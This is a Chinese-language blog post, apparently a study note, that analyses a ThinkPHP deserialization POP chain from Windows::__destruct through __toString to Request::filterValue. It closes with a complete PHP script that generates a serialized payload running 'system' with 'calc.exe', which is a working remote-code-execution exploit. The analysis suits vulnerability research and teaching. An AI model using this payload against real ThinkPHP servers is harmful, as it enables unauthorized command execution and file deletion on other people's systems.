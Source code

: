 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      Thinkphp反序列化利用链深入分析 # 标题 
subtitle:   一些新的思路与手段 #副标题
date:       2019-11-21              # 时间
author:     LessterWong             # 作者
header-img: img/post-bg-2016.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - PHP
    - Web
    - Security
---
```


###前言
>好像稍微拖得有点久了QwQ

第二篇笔记，加油加油！

这次更新时间间隔稍微有点长，表示歉意~目前的学习过程中暴露出很多的问题，如docker工具使用不熟练、问题切入点不好寻找等，php的学习也遇到了瓶颈，慢慢加油吧~没有上过网络礼包的我也要加快网络方面知识的学习了。

这次的工作，是是跟随[https://paper.seebug.org/1040/](https://paper.seebug.org/1040/) 中的内容复现出该漏洞并进行一些探讨和分析。

###Thinkphp 反序列化利用链深入分析
>思路非常的有趣

####总体思路
这次我们所面对的同样是一个反序列化的漏洞，由于漏洞触发的代码不在魔术方法中，我们需要和上篇博客中进行一样的操作：构造pop链来将类属性与敏感函数的属性联系起来。在整个过程中，都是以寻找对应的魔术方法作为突破口，不过这次的pop链构造过程略微有些复杂，触发漏洞的过程也有一定的操作难度。

####利用链的构建
这个漏洞起始于某个类的__destruct()方法：

```
public function __destruct()
{
    $this->close();
    $this->removeFiles();
}
```

我们追踪到removeFiles函数中，发现内容如下：
```
class Windows extends Pipes
{
    private $files = [];
    ....
    private function removeFiles()
    {
        foreach ($this->files as $filename) {
            if (file_exists($filename)) {
                @unlink($filename);
            }
        }
        $this->files = [];
    }
    ....
}
```

使用了`$this->files`，且`$files`是可控的。作为一个小白，还是不太能够直观的分辨出某一个变量是否是“可控”的，初步理解为这个变量只需要构建特殊的输入就可以拥有我们所希望其拥有的值。初步认为所有具有“$this->”格式的变量都是“可控”的，因为可以直接通过`__construct()`来给该变量赋值。于是我们找到了第一个需要控制的变量`$files`与它的位置 Windows。

而在`removeFiles()`函数中，`file_exist()`函数会将`$filename`当作字符串来处理，因此在这里我们需要寻找一个__toString方法的漏洞来在处理过程中触发。于是我们全局搜索后找到`\thinkphp\library\think\model\concern\Conversion.php`中的`__toString()`函数，沿着里面调用的函数`toJson()`一步一步向下查找，并在Attribute类中找到了`getRelation()`方法，再往下逐层寻找，最终在`getData`函数中找到了利用终点`$this->data[$name]`。data就是我们需要控制的变量之一了。

现在来总结一下：我们需要控制三个变量：类Windows中的`$files`（需要删除的文件路径），类Conversation中的`$append`（一个判断的条件，满足该条件才能进行进一步的函数调用），类Attribute中的`$data`（利用链的终点）。现在所缺的就是通过use关键字来集成类Conversation和类Attribute的一个类(这样就可以在一个类中构造我们的payload)。

通过搜索我们发现了符合条件的类，位于`\thinkphp\library\think\Model.php`：

```
abstract class Model implements \JsonSerializable, \ArrayAccess
{
    use model\concern\Attribute;
    use model\concern\RelationShip;
    use model\concern\ModelEvent;
    use model\concern\TimeStamp;
    use model\concern\Conversion;
    .......
```

####代码执行点的分析

通常的思路是再去找一个反序列化的漏洞，而这篇文章中采用了另外的一个方法：尝试覆盖某个功能。当系统尝试去调用这个功能时，会直接跳我们设计的假功能。这里选择了尝试覆盖Request类中的`filter`功能。

在这里找到的首先是`filterValue`函数：

```
  ....
  private function filterValue(&$value, $key, $filters)
    {
        $default = array_pop($filters);

        foreach ($filters as $filter) {
            if (is_callable($filter)) {
                // 调用函数或者方法过滤
                $value = call_user_func($filter, $value);
            }
            .....
```

这里依然是一层一层找漏洞的，但和上面沿着可控的链一直往下找有所区别，这里的思路是一直找直至找到`$value`可控的位置。我们发现了`input`函数中存在`$this->filterValue($data, $name, $filter);`的内容，可以控制`value`的值，而`input`函数的参数本身又是不可控的。于是我们再去寻找可以控制`input`函数参数的函数（好像有点绕）。于是我们用这个思路一路找到了`param`函数、`isAjax`函数。`isAjax`明显是可控的，于是倒推回去是可以控制`input`中的`$name`。这就离控制`filterValue`中的`$value`又近了一步。确实相当的精妙。于是下一个任务就是回到`input`函数中，补上剩下的拼图。

发现`input`函数中：`$data = $this->getData($data, $name);` 我们得到`$value`需要控制`$data`，现在就要控制`$name`。于是再一次进行跟进工作，最后就可以构造出来payload啦。

```
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["ethan"=>["calc.exe","calc"]];
        $this->data = ["ethan"=>new Request()];
    }
}
class Request
{
    protected $hook = [];
    protected $filter = "system";
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       => '_method',
        // 表单ajax伪装变量
        'var_ajax'         => '_ajax',
        // 表单pjax伪装变量
        'var_pjax'         => '_pjax',
        // PATHINFO变量名 用于兼容模式
        'var_pathinfo'     => 's',
        // 兼容PATH_INFO获取
        'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
        // 默认全局过滤方法 用逗号分隔多个
        'default_filter'   => '',
        // 域名根，如thinkphp.cn
        'url_domain_root'  => '',
        // HTTPS代理标识
        'https_agent_name' => '',
        // IP代理获取标识
        'http_agent_ip'    => 'HTTP_X_REAL_IP',
        // URL伪静态后缀
        'url_html_suffix'  => 'html',
    ];
    function __construct(){
        $this->filter = "system";
        $this->config = ["var_ajax"=>''];
        $this->hook = ["visible"=>[$this,"isAjax"]];
    }
}
namespace think\process\pipes;

use think\model\concern\Conversion;
use think\model\Pivot;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files=[new Pivot()];
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}
use think\process\pipes\Windows;
echo base64_encode(serialize(new Windows()));
?>
```

把payload通过POST传过去，就可以利用漏洞了。

###总结
这一次的反序列化过程中，用了两个不太思路完全不同的跟进方法，从两个不同的方向相互靠拢并最终完成了漏洞的利用工作，确实非常的精妙，给我提供了很多新的思路。